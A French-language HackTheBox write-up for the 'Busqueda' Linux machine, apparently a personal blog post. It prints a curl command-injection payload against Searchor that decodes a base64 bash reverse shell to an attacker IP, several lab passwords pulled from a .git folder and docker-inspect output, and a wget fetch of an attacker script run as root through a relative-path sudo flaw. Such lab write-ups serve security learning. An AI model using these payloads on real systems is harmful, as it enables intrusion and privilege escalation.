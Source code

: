 ```yaml
---
title: Busqueda - Easy (Linux)
categories:
- Write-up
- HackTheBox
tags:
- hack-the-box
- linux
- htb
- web
---
```


### Nmap

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Searcher
| http-server-header:
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On voit que le site tourne sous apache. Que c'est probablement un site flask.

## Le site.

Le site est un site de recherche. Après un simple ctrl + u on voit qu'il est basé sur un projet "searchor".

On va sur internet et, muni de la version, on tombe directement sur une vulnérabilité.

Le projet utilise la fonction très très dangereuse "eval", ce qui nous permet d'exécuter n'importe quelle commande sur le serveur, via une SSTI, en commentant le reste du code source.

```bash
curl -s -X POST http://searcher.htb/search -d "engine=Google&query=',__import__('os').system('echo YmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzQvNDI0MiAwPiYxJw==|base64 -d|bash -i'))#toto"
```

Source : https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection/blob/main/exploit.sh

On obtient donc un reverse shell et le premier flag.

## Élévation de privilèges.

```bash
[user]
        email = cody@searcher.htb
        name = cody
[core]
        hooksPath = no-hooks


drwxr-x--- 8 root root 4096 Apr  3 15:04 /opt/scripts/.git
drwxr-xr-x 8 www-data www-data 4096 Jun  8 12:28 /var/www/app/.git
```

Il n'y a rien avec pspy. Par contre on voit qu'il y a gitea en regardant les sous domaines.

Après plusieurs recherches, il s'avère qu'il faut avoir un mot de passe car sans cela on ne peut rien faire.

### Mot de passe de svc.

Il faut chercher dans le dossier .git. Dedans il y a un mot de passe qu'on peut réutiliser.

svc:jh1usoih2bkjaspwe92


### Élévation de privilèges : bis

Munis de crédits valides, nous pouvons maintenant réellement nous attaquer à l'élévation de privilèges.


La première chose que nous essayons c'est `sudo -l` :

```bash
svc@busqueda:~$ sudo -l
[sudo] password for svc:
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
    ```

=> On peut donc exécuter un script python avec les droits root.

Si on essaye ce script, nous avons trois commandes de disponibles :

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
     ```

- `docker-ps`: analogue au vrai `docker ps`, va nous donner des informations sur les containers docker qui tournent.
- `docker-inspect`: idem, va nous donner des informations détaillées sur tel ou tel container.
- `full-checkup`: va faire un check-up un peu nullos.

docker-inspect :

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS          PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   5 months ago   Up 16 minutes   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   5 months ago   Up 16 minutes   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

On a donc deux containers. Le premier est gitea, qu'on avait déjà croisé en lisant /etc/hosts.

Le second un container mysql.

Le site de gitea est accessible via "gitea.searcher.htb". Il s'agit d'une instance du logiciel de gestion de projet.

On peut s'y connecter en testant plusieurs user de croisés :

svc:jh1usoih2bkjaspwe92
administrator:jh1usoih2bkjaspwe92 (c'est lui qui a push l'appli searcher)
cody:jh1usoih2bkjaspwe92 (on chope le nom en lisant `.gitconfig` dans le /home de svc)

Le dernier fonctionne, sauf qu'il n'est pas très intéressant.


La commande docker-inspect va nous aider à rendre le tout beaucoup plus intéressant :

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect \{\{.Config\}\} gitea
{960873171e2e   false false false map[22/tcp:{} 3000/tcp:{}] false false false [USER_UID=115 USER_GID=121 GITEA__database__DB_TYPE=mysql GITEA__database__HOST=db:3306 GITEA__database__NAME=gitea GITEA__database__USER=gitea GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin USER=git GITEA_CUSTOM=/data/gitea] [/bin/s6-svscan /etc/s6] <nil> false gitea/gitea:latest map[/data:{} /etc/localtime:{} /etc/timezone:{}]  [/usr/bin/entrypoint] false  [] map[com.docker.compose.config-hash:e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515 com.docker.compose.container-number:1 com.docker.compose.oneoff:False com.docker.compose.project:docker com.docker.compose.project.config_files:docker-compose.yml com.docker.compose.project.working_dir:/root/scripts/docker com.docker.compose.service:server com.docker.compose.version:1.29.2 maintainer:maintainers@gitea.io org.opencontainers.image.created:2022-11-24T13:22:00Z org.opencontainers.image.revision:9bccc60cf51f3b4070f5506b042a3d9a1442c73d org.opencontainers.image.source:https://github.com/go-gitea/gitea.git org.opencontainers.image.url:https://github.com/go-gitea/gitea]  <nil> []}

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect \{\{.Config\}\} mysql_db
{f84a6b33fb5a   false false false map[3306/tcp:{} 33060/tcp:{}] false false false [MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF MYSQL_USER=gitea MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh MYSQL_DATABASE=gitea PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin GOSU_VERSION=1.14 MYSQL_MAJOR=8.0 MYSQL_VERSION=8.0.31-1.el8 MYSQL_SHELL_VERSION=8.0.31-1.el8] [mysqld] <nil> false mysql:8 map[/var/lib/mysql:{}]  [docker-entrypoint.sh] false  [] map[com.docker.compose.config-hash:1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b com.docker.compose.container-number:1 com.docker.compose.oneoff:False com.docker.compose.project:docker com.docker.compose.project.config_files:docker-compose.yml com.docker.compose.project.working_dir:/root/scripts/docker com.docker.compose.service:db com.docker.compose.version:1.29.2]  <nil> []}
```

On a deux mots de passe qui sont exposés. On va pouvoir utiliser l'un des deux pour se connecter en tant qu'administrateur sur l'instance gitea.

Dans cette instance, on dispose des scripts qui sont présents dans le dossier /opt/scripts.

Dont celui exécutable avec les droits root.

La chose que l'on remarque quasi immédiatement, c'est le script full-checkup.sh est exécuté via un chemin d'accès relatif.

On peut donc créer notre propre script avec notre reverse shell dedans.

```bash
svc@busqueda:~$ wget http://10.10.14.74:4545/full-checkup.sh && chmod +x full-checkup.sh && sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
--2023-06-12 11:13:44--  http://10.10.14.74:4545/full-checkup.sh
Connecting to 10.10.14.74:4545... connected.
HTTP request sent, awaiting response... 200 OK
Length: 250 [application/x-sh]
Saving to: ‘full-checkup.sh’

full-checkup.sh                                            100%[========================================================================================================================================>]     250  --.-KB/s    in 0s

2023-06-12 11:13:44 (32.4 MB/s) - ‘full-checkup.sh’ saved [250/250]
```

Terminé !
